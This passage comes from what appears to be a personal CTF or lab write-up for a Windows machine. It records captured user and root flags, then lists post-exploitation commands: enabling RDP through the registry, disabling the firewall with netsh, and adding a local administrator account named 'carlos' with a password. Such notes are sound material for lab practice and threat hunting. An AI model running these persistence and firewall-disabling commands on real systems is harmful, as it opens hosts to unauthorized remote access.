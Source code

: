 
Serve the exploit to the Windows machine and run
![[Pasted image 20240718111915.png]]

![[Pasted image 20240718112032.png]]
==user.txt : d5b7f505056e183a735a5bbf60bfd67f


![[Pasted image 20240718112137.png]]
==root.txt : 33eb7b9849c0407387da7f64fc04570c

***
***

**DEFENSIVE ENGAGEMENT**

- Enable RDP
- Disable Firewall
- Add an Account
- Review Event Logs
- Track all attack TTP, threat hunt our exploitation


**RDP CMD**
https://www.windows-commandline.com/enable-remote-desktop-command-line/


Add RDP
```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```
![[Pasted image 20240718113618.png]]
![[Pasted image 20240718135139.png]]


**FIREWALL**
Disable the Firewall
```
netsh advfirewall set allprofiles state off
```
![[Pasted image 20240718113921.png]]

**ADD ACCOUNT**
```
net user carlos hack3d#! /add
```
![[Pasted image 20240718114105.png]]

**ADD USER TO ADMIN GROUP**
```
net localgroup administrators carlos /add
```
![[Pasted image 20240718114216.png]]
